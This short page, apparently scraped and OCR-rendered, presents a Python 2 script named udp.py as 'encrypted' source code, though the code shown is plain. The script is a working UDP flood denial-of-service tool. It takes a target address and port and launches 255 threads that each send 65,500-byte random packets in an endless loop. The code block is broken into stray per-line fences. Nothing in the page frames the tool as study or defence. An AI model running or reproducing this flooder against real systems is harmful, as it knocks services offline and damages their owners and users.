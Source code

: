 ### The udp.py code that is encrypted is:
```import socket,sys ```
```from random import _urandom```
```from threading import Thread```
```from time import sleep```
```
```try:```
```    TARGET = sys.argv[1]```
```    PORT = sys.argv[2]```
```except:```
```    sys.exit(0)```
```
```def attack(TARGET,PORT):```
```    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)```
```    while True:```
```        print '.' ```
```        bytess = _urandom(65500)```
```        sock.sendto(bytess, (TARGET,PORT))```
``` ```
```def _flood():
```    global TARGET,PORT```
```    for i in range(0,255):```
```        Thread(target=attack,args=(TARGET,int(PORT))).start()```
```
```_flood()```

